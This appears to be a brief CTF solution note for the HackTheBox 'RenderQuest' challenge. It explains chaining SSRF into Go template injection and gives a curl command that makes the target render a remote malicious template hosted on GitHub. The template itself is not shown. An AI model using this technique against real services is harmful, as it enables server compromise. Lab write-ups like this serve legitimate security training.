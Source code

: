 # HackTheBox
## Challenges
### RenderQuest

The solution is to use a SSRF that allows to make a SSTI in the go template.  
The file `malicious.tpl` is served by GitHub, and allows to exploit the SSTI.  
It is possible to trigger it simply by using a curl command:  
```bash
# IP and PORT are given by HTB and should be set or replaced
curl -X GET http://$IP:$PORT/render?use_remote=true&page=https://github.com/Eneru/ssti-challenges/raw/main/HacktTheBox/challenges/RenderQuest/malicious.tpl
```